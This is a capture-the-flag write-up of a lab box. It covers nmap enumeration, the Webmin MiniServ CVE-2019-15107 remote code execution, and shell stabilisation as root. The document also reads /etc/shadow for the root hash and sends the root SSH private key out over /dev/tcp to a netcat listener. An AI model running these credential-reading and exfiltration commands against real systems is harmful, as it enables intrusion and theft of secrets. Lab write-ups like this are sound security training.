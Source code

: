 
## Enumeration

scan top **15000** ports.

```sh
sudo nmap -sC -sV --min-rate 4500 --max-rtt-timeout 1500ms -p-,15000- <IP> -oA enum && xsltproc enum.xml -o enum.html
```

After a couple of minutes we have the result of our scan; we can now answer the qeustions.

![](https://cdn.imgchest.com/files/49zc2znrzoy.png)

**How many of the first 15000 ports are open on the target?**
>4
- SSH 22
- HTTP 80
- HTTPS 443
- MiniServ 10000

**What OS does Nmap think is running?**
>CentOs

**Open the IP in your browser -- what site does the server try to redirect you to?**
>https://thomaswreath.thm

after following the instructions we can access the website

![](https://cdn.imgchest.com/files/7ogcbva2zqy.png)

it appears to be a personal website of our friend Thomas, moving on.

**Read through the text on the page. What is Thomas' mobile phone number?**
>+447821548812

![](https://cdn.imgchest.com/files/7w6c2r9kway.png)

**Look back at your service scan results: what server version does Nmap detect as running here?**
> MiniServ 1.890 (Webmin httpd)

Since I couldn't get that format using the full scan I scanned that port only

```sh
sudo nmap -sC -sV -p 10000 thomaswreath.thm
```

**What is the CVE number for this exploit?**
>CVE-2019-15107

Which's an RCE in that version of MiniServ.

## Exploitation
We follow the provided instructions to gain shell access.

### Optional
Stabilising the shell

```sh
# python3 -c 'import pty; pty.spawn("/bin/bash");'
ctrl+z
kali@kali$ stty raw; fg
[root@prod-serv ]# 
```

**Which user was the server running as?**
> root

running `whoami` outputs `root` which is the current user, you can also use `id` should output:
```
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

**What is the root user's password hash?**
`$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`

We can find this by running `cat /etc/shadow` and copy the part after `root:`  and before `::`.

> You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

**What is the full path to this file?**
>/root/.ssh/id_rsa

it's trivial(also the hint reveals it).

we download the file to our machine, I personally used

target:
```sh
cat id_rsa > /dev/tcp/<IP>/<PORT>
```
*use your machine ip, you can find it through `ip a` usually it's `tun<x>` since you're connecting to a VPN*

attacker:
```
nc -lnvp <PORT> > id_rsa
```

don't forget to `chmod 600 id_rsa` and then you can connect using:
```sh
ssh -i id_rsa root@thomaswreath.thm
```

